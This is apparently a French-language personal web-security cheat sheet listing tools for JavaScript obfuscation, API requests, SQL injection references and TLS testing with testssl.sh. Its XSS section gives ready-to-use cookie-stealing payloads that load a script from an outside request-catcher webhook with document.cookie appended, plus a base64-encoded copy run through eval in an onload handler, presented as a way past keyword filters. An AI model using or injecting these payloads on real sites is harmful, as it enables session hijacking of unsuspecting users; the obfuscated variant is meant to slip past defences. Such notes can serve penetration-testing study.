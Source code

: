 # Web

## Obfuscation Javascript

Outil pour obfusquer du Javascript : http://dean.edwards.name/packer/

Outil pour dé-obfusquer du Javascript : https://lelinhtinh.github.io/de4js/

## API

Outil pour requêter une API : https://reqbin.com/

## XSS

```html
// Pour tester
<p id="p1">Testarossa</p>
<script>
document.getElementById("p1").innerHTML = "Life found a way !";
</script>
```

Webhook : https://busterbaxter.requestcatcher.com/
```html
// Pour exploiter
<script>
var script = document.createElement("script");
script.src = "https://busterbaxter.requestcatcher.com/" + document.cookie;
document.body.appendChild(script);
</script>:-)

// Pour bypass les filtres qui recherchent des mots clés : base64 encoded payload
<body onload="eval(atob('dmFyIHNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoInNjcmlwdCIpO3NjcmlwdC5zcmMgPSAiaHR0cHM6Ly9idXN0ZXJiYXh0ZXIucmVxdWVzdGNhdGNoZXIuY29tLyIgKyBkb2N1bWVudC5jb29raWU7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzY3JpcHQpOw=='))">
```

## Injection SQL

https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

## TLS

`testssl.sh` permet de tester :
- versions de SSL/TLS
- suites de chiffrement
- ordre de chiffrement
- certificat
- vulnérabilités connues

Pour lancer :
```bash
git clone --depth 1 https://github.com/drwetter/testssl.sh.git
cd testssl.sh
./testssl.sh --html 172.17.0.2:50051
```
